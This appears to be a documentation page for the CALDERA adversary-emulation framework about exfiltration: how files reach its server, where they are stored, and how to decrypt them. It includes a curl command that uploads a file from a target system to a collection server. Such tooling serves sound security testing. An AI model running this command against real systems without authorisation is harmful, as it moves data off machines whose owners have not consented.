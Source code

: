 # Exfiltration

After completing an operation a user may want to review the data retreived from the target system. This data is automatically stored on the CALDERA server in a directory specified in [/conf/default.yml](Server-configuration.html#the-existing-default-yml).

## Exfiltrating Files

Some abilities will transfer files from the agent to the CALDERA server. This can be done manually with 
```yaml
curl -X POST -F 'data=@/file/path/' http://server_ip:8888/file/upload
```
Note: localhost could be rejected in place of the server IP. In this case you will get error 7. You should type out the full IP.
These files are sent from the agent to server_ip/file/upload at which point the server places these files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-configuration.html#the-existing-default-yml). By default it is set to /tmp/caldera

## Accessing Exfiltrated Files

The server stores all exfiltrated files inside the directory specified by [/conf/default.yml to key "exfil_dir"](Server-configuration.html#the-existing-default-yml). By default it is set to /tmp/caldera

Files can be accessed by pulling them directly from that location when on the server and manually unencrypting the files.

To simplify accessing exfiltrated files from a running caldera server, you can go the the advanced section in the CALDERA UI and click on the 'exfilled files' section.

From there you can select an operation (or all) from the drop down to see a listing of all the files in the exfil folder corresponding to the operation (specifically works with sandcat agents or any other agent using the same naming scheme for file upload folder) or in the directory along with the option to select any number of files to download directly to your machine.

All downloaded files will be unencrypted before passing along as a download.

## Accessing Operations Reports

After the server is shut down the reports from operations are placed inside the directory specified by the [/conf/default.yml to key "reports_dir"](Server-configuration.html#the-existing-default-yml). By default it is also set to /tmp


## Unencrypting the files
The reports and exfiltrated files are encrypted on the server. To view the file contents the user will have to decrypt the file using /app/utility/file_decryptor.py . This can be performed with:

```shell
python /app/utility/file_decryptor.py --config /conf/default.yml _input file path_
```

The output file will already have the _decrypted tag appended to the end of the file name once the decrypted file is created by the python script.
